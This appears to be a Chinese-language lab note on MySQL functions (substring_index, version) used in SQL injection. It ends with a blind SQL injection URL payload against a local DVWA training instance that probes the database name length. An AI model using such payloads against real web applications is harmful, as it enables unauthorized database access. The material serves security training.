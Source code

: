  
- substring_index(str,delim,count)

```
以.为分隔符，以此显示.分隔符前的字符

mysql> select substring_index('www.mxnet.io', '.',1);
+----------------------------------------+
| substring_index('www.mxnet.io', '.',1) |
+----------------------------------------+
| www                                    |
+----------------------------------------+
1 row in set (0.00 sec)

mysql> select substring_index('www.mxnet.io', '.',2);
+----------------------------------------+
| substring_index('www.mxnet.io', '.',2) |
+----------------------------------------+
| www.mxnet                              |
+----------------------------------------+
1 row in set (0.00 sec)

mysql> select substring_index('www.mxnet.io', '.',3);
+----------------------------------------+
| substring_index('www.mxnet.io', '.',3) |
+----------------------------------------+
| www.mxnet.io                           |
+----------------------------------------+
1 row in set (0.00 sec)

mysql>
```


 
###version()函数

显示数据库版本号

```
mysql> select version();
+-----------------------------+
| version()                   |
+-----------------------------+
| 5.5.41-0ubuntu0.14.04.1-log |
+-----------------------------+
1 row in set (0.00 sec)

mysql>
```

##测试数据库长度,有数据说明长度正确

http://192.168.56.80/dvwacn/vulnerabilities/sqli_blind/?id=1%27%20and%20length(database())=6%20and%20%271%27=%271&Submit=%C8%B7%B6%A8
